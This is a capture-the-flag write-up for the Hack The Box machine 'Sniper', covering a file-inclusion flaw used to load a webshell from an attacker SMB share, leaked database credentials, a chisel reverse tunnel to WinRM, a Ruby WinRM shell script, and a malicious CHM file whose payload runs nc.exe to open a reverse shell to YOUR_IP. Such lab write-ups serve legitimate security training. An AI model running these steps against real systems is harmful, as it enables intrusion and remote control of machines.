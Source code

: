 ```yaml
---
layout: post
title: Sniper - 10.10.10.151
difficulty: 6
author: Entr0phy
author_twitter_name: Entr0phy
author_twitter_url: https://twitter.com/Entrophy6
---
```


# USER



We start from a scan with Nmap with service enumeration:

<pre>PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC


</pre>

So the actual running services are smb and a web appliation. Just inspect a bit the webapp as first. 

![](/images/sniper/1.png)

It seems a webapplication of  company for good delivery. And they also have a blog page. Interesting. The URL is even more interesting :)


![](/images/sniper/2.png)

Apparently it is calling a local file for the language, let's try with a common file usually accessible on windows OS :

http://10.10.10.151/blog/?lang=\users\public\desktop\desktop.ini

![](/images/sniper/3.png)

We can read it. So now exploit this beauty. Let's try to connect to our smb .
At first rewrite our config for our smb server:

<pre>
[sniper]
 path =YOUR_SMB_FOLDER
 browseable = yes
 read only = no
 guest ok = yes
 create mask = 777
</pre>

Be sure that the permissions over all the files is actually 777 mask else this won't work. Then restart the services .

<pre>
systemctl restart smbd
systemctl restart nmbd
</pre>

I just placed a webshell inside my folder called index.php and I got it using the following URL : http://10.10.10.151/blog/?lang=\\10.10.14.5\sniper\index.php

![](/images/sniper/4.png)

Enumerating  bit we find an interesting file under ```C:\inetpub\wwwroot\user\``` called db.php. Read it and we get some interesting credentials :)

<pre>

// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }

</pre>

Due to the fact that ```net user``` doesn't seem to work, in order to discover the name of the user we hd to check under the folder C:\Users and discovered that the only other user is called Chris.

this works with smb :)

<pre>
smbclient -L 10.10.10.151 -U Chris
Enter WORKGROUP\Chris's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

</pre>

Unfortunately there is nothing interesting in the share in order to get persistence on the box. So I checked over netstat and I noticed that there is a winrm port open :D

![](/images/sniper/5.png)

Just pivot the hell out with chisel! I had to put  chisel.exe binary on the smbshare to make this work ofc

<pre>
on your pentestbox ==> chisel server -p 8000 --reverse 
from the webshell ==> \\YOUR_IP\sniper\chisel_windows_amd64.exe client YOUR_IP:8000 R:5985:127.0.0.1:5985
</pre>

Then just user evil win-rm or  a ruby shell for connect to winrm on your local port with those creds  and you are in :)

<pre>
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://127.0.0.1:5985/wsman',
  user: 'Chris',
  password: '36mEAhz/B8xQ~2VM'
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end

</pre>

![](/images/sniper/6.png)

# ROOT

Normal enumeration does not highlight anything interesting. Let's dig for custom/user files around the system. 
The first one is Instruction.chm under C:\Users\Chris\Downloads. Converting it to PDF shows the following content :

<pre>
Sniper Android App Documentation
Table of Contents
Pff... This dumb CEO always makes me do all the shitty work. SMH!
I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.
</pre>

This seems an hint to me. Another one is under C:\Docs\note.txt

<pre>
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.

</pre>

It says to actually drop here some documentation. And the other file was a chm file. Suspicious. Google gave me the answer soon enough

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1

So login into our Windows VM , install the windows html helper and the Out-CHM.ps1 script and execute the following commands:

<pre>
Import-Module .\Out-CHM.ps1
Out-CHM -Payload "\\\\YOUR_IP\\sniper\\nc.exe  YOUR_IP 443 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
</pre>

just copy the produced chm inside the C:\Docs folder and wait for the reverse shell :()

And we rooted Sn1p3r!

#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :)







